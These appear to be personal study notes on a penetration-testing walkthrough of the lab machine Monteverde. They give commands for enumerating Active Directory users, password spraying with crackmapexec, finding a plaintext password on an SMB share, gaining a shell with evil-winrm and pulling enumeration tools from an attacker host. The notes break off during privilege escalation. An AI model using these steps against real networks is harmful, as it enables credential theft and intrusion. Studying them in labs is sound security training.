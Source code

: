 **IppSec Walkthrough**

# Enum
1. Run an nmap scan on the IP, scripts, version detect, and output to a file
	1. `sudo nmap -sC -sV -oA nmap/monteverde 10.10.10.172`
	2. ![[Pasted image 20230308144844.png]]
	3. Not seeing a webserver, we think likely vectors to attack will be SMB and LDAP. But we'll be thorough first
2. Checking first service: DHCP
	1. `nslookup` -> `server 10.10.10.172` - set the DC as the server
	2. `127.0.0.1` - no result
	3. `megabank.local`
	4. `monteverde` - no result
	5. No valuable info gained
3. Moving on, check rpcclient with null authentication
	1. `rpcclient -U '' 10.10.10.172` - this gets us an authentication
	2. `enumdomusers` - to get all users
	3. ![[Pasted image 20230308151207.png]]
	4. Tab twice to get all commands, trying to figure out how to enum a user (or use ippsec.rocks)
	5. `querydisinfo` - to dump more AD info
	6. Copy users dump into a file on local system
4. With a list of users, we can try to build a wordlist from those users
	1. clean up the file with vim `vi users.txt`
		1. `6x` to delete first 6 chars, `d` to delete rest of line
		2. alternatively try a `sed` script 
		3. End result should like this: ![[Pasted image 20230308151625.png]]
		4. We also see the AAD... user, this is a cloud (Azure AD) virtual table link to upload users / user info to Azure, to include passwords. Keep note of this.
	2. create a password list derivative of the usernames to feed to [[hashcat]] and [[crackmapexec]] `cp users.txt password.txt`
		1. `vi password.txt` - add some more common words for hashcat to iterate on 'password, summer, love, etc.'
		2. `crackmapexec smb 10.10.10.172 --pass-pol` - retrieves password policy from AD server, we see Account Lockout Threshold is 'None' so we have no fear of bruteforce now
		3. `hashcat --force --stdout -r /usr/share/hashcat/rules/best64.rule password.txt > hc_passwords.txt` - generate a bunch of potential passwords using hashcat attacks
		4. `crackmapexec smb 10.10.10.172 -u users.txt -p users.txt` - initially to [[crackmapexec]] as a quiet option
		5. We already get a hit on SABatchJobs: ![[Pasted image 20230308160425.png]] but no 'pwned' meaning admin privileges
5. With this first user SABatchJobs's creds, we try to get footholds through different protocols
	1. `crackmapexec winrm 10.10.10.172 -u SABatchJobs -p SABatchJobs`- login over winrm fails
	2. `smbmap -u SABatchJobs -p SABatchJobs -H 10.10.10.172` - [[smbmap]] enumerate shares using user creds, returning this: ![[Pasted image 20230308161405.png]]
	3. `smbmap -u '' -H 10.10.10.172` - also try null creds (can also try guest, anonymous), but this returns nothing
	4. `users` disk might be interesting 
	5. `smbmap -u SABatchJobs -p SABatchJobs -H 10.10.10.172 -R --exclude SYSVOL IPC$` - recursively list contents of all the directories which we have access to, excluding SYSVOL and IPC since they will have a lot of useless info
	6. `.\users$\mhope\*` - was readable and had some contents: `azure.xml`
	7. `smbclient -U SABatchJobs //10.10.10.172/users$` -> `get azure.xml` -> `cd mhope` -> `get azure.xml` (or download via smbmap and view that way)
	8. And we see a plaintext password: ![[Pasted image 20230308163901.png]]

	> *going higher level on my notes here for the sake of time*

6. Use new found password in [[crackmapexec]] 
	1. `crackmapexec smb HOST -u users.txt -p '$n0therD4y@n0th3e$'`
	2. find its the 'mhope' password
	3. `crackmapexec winrm 10.10.10.172 -u users.txt -p 'THE_PASSWORD'` - returns a `(Pwn3d!)`
	4. 
# Foothold
1. [[evil-winrm]] `evil-winrm -u USER -p 'PASSWORD' -i HOST_IP` - gives us that good old reverse shell
	1.  target: `hostname; whoami; ipconfig` - good to show a "pwn"
2. Get [[Seatbelt]] onto the system and run
	1. `locate Seatbelt`
	2. `upload PATH_TO_SEATBELT` - doesn't work
	3. `cp PATH_TO_SEATBELT ./www/Seatbelt.exe`
	4. [[python]] server from Seatbelt dir
	5. `curl LOCAL_IP/Seatbelt.exe -o Seatbelt.exe`
	6. `.\Seatbelt.exe -group=all` - takes a while to run, returns a bunch of host info including installed services, credential files, scheduled jobs etc.
3. Get [[WinPEAS]] onto the system and run
	1. didn't get too much when we rushed through the output, did see that there is SQL managed DB
4. `whoami /all` - will also check group memberships
5. keyword search in WinPEAS output (ie. 'admin')
	1. Shows an 'Azure Admins' in current croups
6. try [[sqlcmd]] `sqlcmd` - we get no feedback, which means no error, so it works
	1.  `sqlcmd -Q "show_db"` - nothing
	2. `sqlcmd -Q "select * from sys.database"` - got a bunch of raw output, if we scroll up we can see column names to select
	3. `sqlcmd -Q "select name,create_date from sys.database"`
7. Alternatively, try [[PowerUpSQL]]